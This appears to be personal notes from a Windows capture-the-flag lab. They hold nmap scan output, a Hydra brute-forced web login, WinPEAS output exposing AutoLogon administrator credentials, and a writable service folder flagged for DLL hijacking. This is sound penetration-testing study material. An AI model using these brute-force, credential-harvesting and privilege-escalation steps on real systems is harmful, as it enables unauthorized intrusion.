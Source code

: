 >Hacking Windows with Hydra, RCE & WinPEAS

IP KALI = **10.10.220.94**
IP VICTIM = 10.10.197.182


PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ssl/ms-wbt-server?


Running (JUST GUESSING): Microsoft Windows 2012 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%)


[80][http-post-form] host: 10.10.197.182   login: admin   password: 1qaz2wsx


  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs



![[Pasted image 20230920102231.png]]

    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper


![[Pasted image 20230920102330.png]]

  [+] Looking AppCmd.exe
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe
    AppCmd.exe was found in C:\Windows\system32\inetsrv\appcmd.exe You should try to search for credentials

